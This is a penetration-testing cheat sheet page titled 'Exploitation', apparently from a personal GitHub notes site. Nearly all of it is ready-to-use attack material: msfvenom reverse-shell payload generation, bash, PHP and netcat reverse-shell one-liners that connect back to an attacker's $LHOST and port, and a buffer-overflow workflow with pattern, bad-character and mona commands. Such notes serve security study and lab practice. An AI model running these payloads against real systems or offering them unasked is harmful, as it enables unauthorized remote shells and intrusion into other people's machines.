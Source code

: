 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Finding vulnerabilities and turning them into usable exploits.._

## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads

| **Windows**       |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|

| **Linux**         |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

## Buffer Overflows

[Buffer Overflow POC](./assets/bof-poc.py)

[Stack Frame Cheatsheet](./assets/stack-frame-cheatsheet.png)

### 1. Finding the Return Address

Create a unique pattern:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [no of bytes]
```

```bash
pwn cylic [no of bytes]
```

Crash the program, get the EIP at the that crashed it:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value of ra]
```

```bash
pwn cyclic -l [value of ra]
```

### 2. Bad Characters

A Character is defined as a 'bad' character if, when looking in the debugger's memory map, it is not found in buffer or it truncates the payload

```bash
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

### 3. Finding Useful Instructions

**Finding opcodes from Assembly:**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

i.e. jmp esp == “\xff\xe4”

**Finding occurances of opcodes in memory:**

```bash
!mona modules
```

- Find module with no DEP and ASLR (all except last column false)

```bash
!mona find -s "xff\xe4" -m target.dll
```

```bash
!mona find -s "\xff\xe4"
``` 
- use if nothing shows up, very slow and may crash idb

### Miscellaneous Tips
- Restart the debugger with each test
- Use nano
- Bad characters in instructions and addresses
- Set breakpoints
